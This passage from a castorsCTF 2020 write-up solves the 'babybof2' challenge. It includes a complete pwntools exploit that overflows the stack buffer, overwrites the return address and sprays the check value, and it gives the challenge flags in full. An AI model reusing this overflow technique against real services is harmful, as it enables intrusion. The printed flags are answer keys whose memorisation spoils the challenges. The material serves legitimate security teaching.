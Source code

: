 ```
castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}
```

#### babybof2 (267 points 109 solves)

##### Description

Authors: icinta

nc chals20.cybercastors.com 14434

[`winners`](/assets/files/castorsCTF20/winners)

##### Solution

The solution for this is similar to babybof1 except that the equivalent of the
flag function has checks. I initially thought of bypassing these checks by just
jumping inside of the `winnersLevel` function (the function that prints the flag
(equivalent to `get_flag` in babybof1), after the checks. However this didn't
work because of the way the value is gotten from the stack.

To fix this I "sprayed" the stack with the value that is wanted by the
`winnersLevel` function hoping that it would find the value there which it did:

```python
#!/usr/bin/env python3

from pwn import *

#r = process('./winners')
r = remote('chals20.cybercastors.com', 14434)

payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaa"
#payload = b"A" * 76
payload += p32(0x08049196)
payload += p32(0x182)
payload += p32(0x182)
payload += p32(0x182)
payload += p32(0x182)
r.sendline(payload)
#attach(r)
r.recv()
r.interactive()
```

[![asciicast](https://asciinema.org/a/1yAUKuEBGpSAtUFvxpr1nWOCy.svg)](https://asciinema.org/a/1yAUKuEBGpSAtUFvxpr1nWOCy)

##### Flag

```
castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}
```

#### babyfmt (320 points 95 solves)

